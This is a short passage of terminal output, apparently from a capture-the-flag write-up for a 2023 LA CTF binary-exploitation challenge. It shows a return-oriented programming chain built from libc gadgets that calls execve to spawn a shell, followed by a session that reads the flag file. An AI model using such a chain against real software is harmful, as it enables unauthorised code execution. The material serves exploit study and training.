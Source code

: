 [<span style="color:#005DD0"><b>*</b></span>] Loading gadgets for &apos;/home/ctf/lactf-archive/2023/pwn/stuff/libc.so.6&apos;
[<span style="color:#005DD0"><b>*</b></span>] 0x0000:      b&apos;bbbbbbbb&apos; b&apos;bbbbbbbb&apos;
    0x0008:   0x7f8d671ca0c8 pop rax; pop rdx; pop rbx; ret
    0x0010:             0x3b SYS_execve
    0x0018:              0x0
    0x0020:      b&apos;iaaajaaa&apos; &lt;pad rbx&gt;
    0x0028:   0x7f8d6716c3d1 pop rsi; ret
    0x0030:              0x0
    0x0038:   0x7f8d6716aab5 pop rdi; ret
    0x0040:   0x7f8d672da031
    0x0048:   0x7f8d671697b2 syscall
[<span style="color:#005DD0"><b>*</b></span>] Switching to interactive mode
<span style="color:#C01C28"><b>$</b></span> ls
flag.txt
run
<span style="color:#C01C28"><b>$</b></span> cat flag.txt
lactf{old_gcc_hands_out_too_many_free_gadgets_smh}
</code></pre>
